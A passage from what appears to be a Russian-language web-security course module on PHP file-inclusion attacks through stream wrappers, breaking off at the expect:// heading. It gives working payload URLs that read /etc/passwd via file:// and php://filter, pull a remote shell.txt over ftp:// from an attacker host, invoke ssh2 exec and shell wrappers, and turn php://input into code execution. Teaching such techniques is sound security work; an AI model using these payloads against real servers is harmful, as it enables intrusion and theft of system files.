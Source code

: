 ```
http://example.com/index.php?page=file:///etc/passwd
```

##### ftp:// и ssh2://

Разработчик может вручную фильтровать протоколы, закрывая RFI, но он также может забыть о других протоколах: `ftp` и `ssh`, которые тоже можно использовать для RFI:

```
http://example.com/index.php?page=ftp://user:рass@yourhost/shell.txt
ssh2.shell://user:pass@example.com:22/xterm
ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd
ssh2.tunnel://user:pass@example.com:22/192.168.0.1:14
ssh2.sftp://user:pass@example.com:22/path/to/filename
```

По умолчанию враппер ssh2 выключен, но как показывает практика, нужно тестировать все места, которые только возможно.

##### php://

предоставляет разного рода потоки ввода и вывода

Мы же остановимся на том, что потоки php позволяют получить доступ к стандартным входным, выходным и файловым дескрипторам файлов, временным файловым потокам в памяти и дисковым резервным хранилищам и фильтрам, которые могут управлять другими файловыми ресурсами, поскольку они читаются и записываются.

##### php://filter

С помощью `php://filter/convert.base64-encode/resource=/etc/passwd` мы получим закодированный в base64 файл `passwd: http://example.com/index.php?page=php://filter/convert.base64 encode/resource=../../../../../etc/passwd`

##### php://input

С помощью `php://input` можно раскрутить LFI до выполнения произвольного кода. Дело в том, что `php://input` принимает любые данные через POST-запрос, которые потом благополучно инклудятся.

![alt text](./imgs/mod3_5_phpinput.png)

##### expect://

Выключен по умолчанию, но позволяет выполнять код на стороне сервера:
